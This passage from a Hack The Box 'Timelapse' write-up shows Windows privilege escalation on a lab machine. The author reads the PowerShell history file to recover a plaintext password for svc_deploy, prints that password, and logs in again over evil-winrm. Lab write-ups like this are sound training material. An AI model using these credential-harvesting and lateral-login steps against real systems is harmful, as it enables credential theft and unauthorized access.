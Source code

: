 Cool time to escalate privilege 

I'll upload winPEAS to the box and run it

But damn theres AV on it 

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> .\winPEAS.exe
Program 'winPEAS.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\winPEAS.exe
+ ~~~~~~~~~~~~~.
At line:1 char:1
+ .\winPEAS.exe
+ ~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```

Manual enumeration it is then!!! I'll check the powershell history file to see if i get anything from it
![image](https://user-images.githubusercontent.com/113513376/217147870-9c411131-ccc7-4139-b228-59e88e1afa58.png)

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> more $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Enter PEM pass phrase:
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit

*Evil-WinRM* PS C:\Users\legacyy\Documents>
```

Cool we see that there's credential which belongs to user svc_deploy

I'll login to winrm as svc_deploy using the credential 

```
Username: svc_deploy
Password: E3R$Q62^12p7PLlC%KWaxuaV
```

```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ evil-winrm -i timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami /priv
```